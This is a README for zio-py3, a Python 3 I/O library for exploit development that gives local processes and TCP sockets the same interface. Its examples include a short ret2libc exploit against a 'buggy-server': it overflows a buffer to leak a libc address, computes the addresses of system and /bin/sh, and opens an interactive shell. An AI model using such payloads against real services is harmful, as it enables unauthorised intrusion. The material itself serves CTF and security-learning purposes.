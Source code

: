 
# zio-py3

[![Build Status](https://travis-ci.org/taoky/zio.png)](https://travis-ci.org/taoky/zio)

Original `zio` project: <https://github.com/zTrix/zio>, by [zTrix](https://github.com/zTrix/)

This repository tries to turn `zio` into a Python 3 project (well `pwntools` is just too much heavyweight). It is still unstable now.

---

[zio] is an easy-to-use io library for pwning development, supporting an unified interface for local process pwning and TCP socket io.

The primary goal of [zio] is to provide unified io interface between process stdin/stdout and TCP socket io. So when you have done local pwning development, you only need to change the io target to pwn the remote server.

The following code illustrate the basic idea.

```python
from zio import *

if you_are_debugging_local_server_binary:
    io = zio('./buggy-server')            # used for local pwning development
elif you_are_pwning_remote_server:
    io = zio(('1.2.3.4', 1337))           # used to exploit remote service

io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

## License

[zio] use [SATA License](LICENSE.txt) (Star And Thank Author License), so you have to star this project before using. Read the [license](LICENSE.txt) carefully.

## Dependency

 - Linux or macOS
 - Python 3.5+
 - termcolor (optional, for color support)
    - $ pip install termcolor

## Installation

This is a single-file project so in most cases you can just download [zio.py](https://raw.githubusercontent.com/taoky/zio/master/zio.py) and start using.

pip is also supported, so you can also install by running 

```bash
$ pip install termcolor # for color support, optional
$ pip install zio
```

## Examples
 
```python
from zio import *
io = zio('./buggy-server')
# io = zio((pwn.server, 1337))

for i in range(1337):
    io.writeline('add ' + str(i))
    io.read_until('>>')

io.write(b"add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + b"A" * 49 + b"\nshow\n")
io.read_until(b'A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = b'A' * 64 + l32(libc_system) + b'JJJJ' + l32(libc_binsh)
io.write(b'info ' + payload + b"\nshow\nexit\n")
io.read_until(b">>")
# We've got a shell;-)
io.interact()
```

## Document

To be added... Please wait...

### about line break and carriage return

Just don't read '\n' or '\r', use `readline()` instead

## Thanks (Also references)

 - [zio](https://github.com/zTrix/zio)
 - [pexpect](https://github.com/pexpect/pexpect) I (zTrix) borrowed a lot of code from here
 - [sh](https://github.com/amoffat/sh)
 - python subprocess module
 - TTY related
   - http://linux.die.net/man/3/cfmakeraw
   - http://marcocorvi.altervista.org/games/lkpe/tty/tty.htm
   - http://www.linusakesson.net/programming/tty/


[zio]:https://github.com/taoky/zio
